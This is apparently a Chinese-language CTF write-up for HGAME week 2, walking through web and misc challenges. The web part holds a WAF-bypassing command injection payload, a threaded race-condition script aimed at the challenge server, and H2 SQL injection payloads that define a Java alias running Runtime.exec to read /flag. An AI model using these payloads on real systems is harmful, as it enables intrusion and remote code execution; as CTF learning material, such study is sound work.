 ```yaml
---
title: hgameweek2
tags: misc web
description: week2wp
---
```

# hgameweek2
## web
### What the cow say?
打开网站，是一个让我们输入内容并且会由牛牛输出的框框，首先试了一些常见的注入命令，发现分别出现了`WAF`和`ERROR`,对一些常见关键词如`&&`出现了`WAF`过滤
初步猜测是命令行注入，查了好久的绕过，原来是利用$()内联执行
![](./img/Snipaste_2024-02-05_22-42-31.png)
但是`WAF`了`cat`,`flag`
![](./img/Snipaste_2024-02-05_22-43-55.png)
绕过一下，发现显示该文件是个目录，没办法读取！

`paylod=$( c$@at /f$@lag_is_here)`

再ls＋cat flag 就好啦
![](./img/Snipaste_2024-02-06_00-09-55.png)
### myflask
打开网页是一串python代码
要求我们把cookie中的`username`改为`admin`才能回显数据，刚开始试了改包，但是没成功，上网查询资料之后发现要伪造`session`,密钥是开靶机的时间，然后在网上找了脚本加密一下运行，在code里面数据不对，在虚拟机里的数据才是正确的，成功改了cookie。（感觉coded的版本太高了）
![](./img/Snipaste_2024-02-06_17-50-27.png)
![](./img/Snipaste_2024-02-06_17-50-02.png)
随后发送post请求，发现 有一个`pickle.loads`函数。查阅发现能进行pickle的rce
然后构造一个简单的脚本，同样在虚拟机里运行。
![](./img/Snipaste_2024-02-06_21-59-54.png)
然后cat /flag 就好啦
### Select More Courses
打开网站，是一个登录页面，通过页面提示是弱密码，所以用了burp弱密码爆破，找到密码
![](./img/23A5C6B1CD7DEFB9B56320423EA117D3.png)
然后登录进去，要求我们首先要扩学分，但是绩点不够
得知是条件竞争之后分析题目，搞了个爬虫不停发请求，刷新之后就可以选课啦
```python
import threading
import requests
import json
import time
host = "http://106.14.57.14:31029"
user = {
"username": "ma5hr00m",
"password": "qwert123"
}
user_1={
    "username":"ma5hr00m"
}
s = requests.session()
s.post(url="http://106.14.57.14:31029/api/auth/login", data=json.dumps(user))
def post():
    url ="http://106.14.57.14:31029/api/expand"
    try:
        s.post("http://106.14.57.14:31029/api/expand",data=json.dumps(user_1))
    except:
        print("Failed.")
    return
while True:
    t = threading.Thread(target=post)
    t.start()

```
### search4member
打开网页，是一个搜索成员网站，出题人给了源码，进行简单的代码审计
```java
String sql = "SELECT * FROM member WHERE intro LIKE '%" + keyword + "%';";
```
内部的sql语句是这样的构成，以及使用的是`h2 database`，查阅各种资料之后我们发现h2有漏洞可以执行rce，h2允许用户定义函数别名，因此可以执行Java代码,在本地起了环境之后打入第一个payload。
```sql
2%'CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException',
HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime();
rt.exec(cmd);',HEXTORAW('007d'));
CALL EXEC('ls');--
```
报错，发现只有远程可以实现`ls`,本地需用`dir`。以及这是一个sql数据库，我们声明的函数需要以固定格式返回结果才能在远程出现回显。
想到插入一条`sql`语句，随后进行查询。
```sql
21%';CREATE ALIAS Exa AS CONCAT('String e(String cmd) throws java.io.IOException',HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime();String a;java.io.InputStreamReader b = new java.io.InputStreamReader(rt.exec(cmd).getInputStream());a = new java.io.BufferedReader(b).readLine();return a;',HEXTORAW('007d'));INSERT INTO member(id, intro, blog)VALUES('123', Exa('cat /flag'),'#'); --"%';"

```
注入后查询`hgame`获得结果。
## misc
### ek1ng_want_girlfriend
下载`Wireshark`导入文件，导出图片，获得`flag`。
### ezWord
解压压缩包，是一个word文档，看大小直觉`binwalk`一下，果然有东西
有两张相同的图片，根据题目的提示，查找盲水印的相关资料，最后得到密钥
![](./img/Snipaste_2024-02-07_13-46-35.png)
打开`secret.txt`是一个完全看不懂的东西，询问出题人得知是spammimic，解码一下再用ROT8000解码一下就获得flag了。
### 龙之舞
打开压缩包是个`wav`文件，放在软件里解析一下，得到了`key`
![](./img/Snipaste_2024-02-08_12-40-59.png)
查阅资料发现文件还可以放在deepsound解析一下，密码是`key`,是一个xxx.zip
打开是一个gif有二维码，截图拼接发现有二维码损坏，扫不出来，修复一下
![](./img/Snipaste_2024-02-08_16-20-54.png)
![](./img/Snipaste_2024-02-08_16-20-28.png)
得到`flag`。